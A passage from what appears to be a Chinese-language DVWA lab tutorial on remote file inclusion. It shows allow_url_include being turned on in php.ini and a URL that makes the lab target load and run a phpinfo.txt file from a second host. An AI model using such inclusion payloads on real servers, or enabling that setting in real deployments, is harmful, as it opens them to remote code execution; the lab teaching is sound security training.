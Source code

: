 在终端中是用 `sudo vim /etc/php5/cgi/php.ini` 来修改 php 的全局配置文件：

![config-phpini](../imgs/wm_103.png)

找到我们刚刚看到的两个配置参数：

![modify-config](../imgs/wm_104.png)

使用 `:wq` 保存我们的修改。

然后使用 `sudo /etc/init.d/apache2 restart` 命令重启一下，使得配置文件生效：

![restart-apache](../imgs/wm_105.png)

此时我们再次尝试访问这个 URL，就可以正常访问了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/phpinfo.txt
```

由此可以看出它能够正常的执行远在我服务器上的 phpinfo.txt 文件，这就是远程文件包含，并且我们可以看到配置，其中 allow_url_include 的设置是 On，说明就是在靶机中执行的，因为默认情况下在 php5 中该配置选项是 Off 的。
